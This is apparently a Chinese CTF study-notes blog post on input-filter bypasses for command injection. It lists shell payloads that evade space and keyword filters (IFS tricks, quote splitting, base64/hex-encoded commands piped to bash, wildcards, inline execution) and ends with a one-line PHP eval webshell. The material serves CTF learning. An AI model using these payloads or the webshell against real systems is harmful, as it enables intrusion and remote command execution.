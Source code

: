 ```yaml
---
title: 20241209CTF学习笔记6
date: 2024-12-09
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true












---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始视频学习的第6天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第6章：ByPass

### 过滤空格

如果空格被禁止了，那就需要用一些其他的方法

```shell
# 这种情况展示不了flag，只会报找不到cat.php的文件
cat$IFSflag.php
# 使用以下方式可以不用空格
cat${IFS}flag.php
# <这个意思是导入
cat<flag.php
# 用逗号实现了空格的功能，需要用{}括起来
{cat,flag.php}
# 需要看编码支不支持
cat%20flag.php
# %09代表tab键
cat%09flag.php
```

### 过滤某些关键字

比如cat、flag等

```shell
# 用反斜线转义，对字母本身做转义还等于本身
cat fla\g.php

# 可以用两个单引号隔开
cat fla''g.php

# base64编码绕过 需要将cat flag.php或者flag.txt进行base64加密，
echo "Y2F0IGZsYWcudHh0" | base64 -d | bash

# hex编码绕过 
# 对于给定的十六进制字符串 "63617420666c61672e747874"，经过 xxd -r -p 解码后得到的文本内容是 "cat flag.txt"，然后通过管道传递给 bash 去执行，查看flag.txt文件
echo  echo "63617420666c61672e747874" | xxd -r -p | bash

# 用[]去匹配
cat fl[a]g.txt

# 用[]匹配时，如果有两个字母，表示不包含两边
cat fla[f-h].txt

# 用*来匹配，代表任意长度字符
cat fla*

# 用问号匹配 正常ctf环境直接cat flag即可，将g替换为问号，问号是单个长度的任意
cat flag.tx?

# 从a—z逐行执行
cat fl{a..z}g

# 内联执行 第一行是找到flag.txt的文件 第二号反引号先执行里边的命令 然后把里边命令的结果给cat
ls | grep fla
cat `ls | grep fla`
# 或者有其他的内联执行
cat $(ls |grep fla)

# 用变量
a=fl;b=ag;cat $a$b.txt
```

> 在Python中，如果过滤了加号，不让使用加号时，我们可以使用如下特性绕过
>
> ```
> 'a'+'b'会输出ab
> 'a''b'也会输出ab
> ```

### 附加题目：

GXYCTF2019 Ping Ping Ping

### 代码执行漏洞

##### 题目练习

eval()函数，以下是一个一句话木马，0就是webshell的密码，蚁剑帮我们执行了很多命令，用eval去执行。

eval()函数在 PHP 中可以把传入的字符串当作 PHP 代码来执行。

```php
<?php eval($_POST[0]);?>
```


